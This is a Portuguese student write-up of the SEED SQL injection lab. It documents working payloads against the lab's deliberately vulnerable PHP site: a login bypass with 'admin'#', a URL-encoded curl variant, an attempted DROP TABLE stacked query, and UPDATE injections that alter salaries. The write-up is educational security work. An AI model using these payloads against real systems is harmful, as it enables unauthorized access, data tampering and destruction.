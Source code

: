 # SQL Injection Attack

## Setup

Numa fase inicial adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executamos os containers fornecidos no lab e abrimos uma shell com acesso direto à base de dados manipulada durante os exercícios.

```bash
sudo nano etc/hosts     # colocar '10.9.0.5 www.seed-server.com'

$ dcbuild               # docker-compose build
$ dcup                  # docker-compose up

$ docksh f3             # Abrir uma shell do MySQL container
$ mysql -u root -pdees  # Executar o MySQL com utilizador root
$ use sqllab_users;     # Selecionar o schema
```

## Tasks

### Task 1: Get Familiar with SQL Statements

A tarefa consistia em selecionar os dados do utilizador "Alice". Como a sintaxe SQL já é bem conhecida facilmente chegamos ao comando correcto para executar a operação:

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

Obtivemos assim todos os dados pessoais do utilizador:

![Task 1](../../Images/lab8task1.png)

###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Acedemos ao site "www.seed-server.com" disponibilizado pelo container Docker e também ao ficheiro `unsafe_home.php`. Aí pudemos constatar que a query utilizada é frágil pois o servidor cria o comando dinamicamente com as strings não sanitizadas do input do utilizador:

```sql
WHERE name= '$input_uname' and Password='$hashed_pwd'
```

Como o campo password é cifrado é vantajoso usurpar o funcionamento da pesquisa usando somente o campo do username.<br>
Ao usarmos o input "admin'#", garantimos o acesso privilegiado, pois todo a verificação da palavra chave torna-se irrelevante uma vez que é comentada. Assim, o código executado do lado do servidor passou a ser o seguinte:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'# and Password=’$hashed_pwd’
```

Tal como esperado, conseguimos fazer login com a conta do administrador e assim obter todos os dados relativos ao resto dos utilizadores da aplicação:

![Task 2 a](../../Images/lab8task2a.png)

#### Task 2.2 - Login in adminstrator mode from command line

Desta vez realizamos o ataque através de um pedido GET. Um exemplo de um pedido a este servidor numa linha de comandos seria:

```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```

Com o mesmo input da secção anterior, desta vez cifrado usando as convenções (%27 = ' e %23 = #), obtivemos o seguinte comando malicioso:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Obtivemos com isto o código HTML de toda a página que continha os dados pessoais dos utilizadores

![Task 2 b](../../Images/lab8task2b.png)

#### Task 2.3 - Append a new SQL statement

Podemos adicionar novos comandos SQL usando ";". Para isso, modificamos no nosso input malicioso inicial para que fizesse um side-effect no servidor. Por exemplo eliminar a tabela das credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

No entanto a operação não chegou a ser executada devido a um erro na base de dados:

![Task 2 c](../../Images/lab8task2c.png)

Segundo [esta fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo PHP do servidor tem uma proteção que impede a execução de múltiplas queries, pelo que não foi possível concluir o ataque.

### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Após dar login com uma conta do sistema (por exemplo username = Alice, password = 11), tivemos acesso a uma página para editar os dados pessoais. Esta é gerida a partir do ficheiro disponibilizado `unsafe_edit_backend.php`, que contém uma query também formada dinamicamente com as strings não sanitizadas do input do utilizador. <br>
O nosso ataque consistui na utilização do campo "phone number". Usando a mesma técnica dos tópicos anteriores obtivemos o seguinte código que pode manipular o salário do utilizador:

```sql
933667378',Salary='9999999
```

Note-se que a plica (') antes do valor do salário é importante para completar a última instrução antes do WHERE. No final o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='9999999' WHERE ID=$id;
```

Tal como previsto, a variável salário foi também alterada para o valor escolhido:

![Task 3 a](../../Images/lab8task3a.png)

#### Task 3.2 - Modify other people’ salary

Para alterar o valor do salário de outro utilizador usamos uma técnica parecida com a anterior. No entanto criamos uma WHERE clause diferente e comentamos a que estava no sistema para não interferir na pesquisa:

```sql
933667378',Salary='-9999999' WHERE Name='Boby'#
```

Com este input, o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='-9999999' WHERE Name='Boby'# WHERE ID=$id;
```

Aqui podemos ver o valor do salário do Boby antes e depois do ataque:

![Task 3 b](../../Images/lab8task3b.png)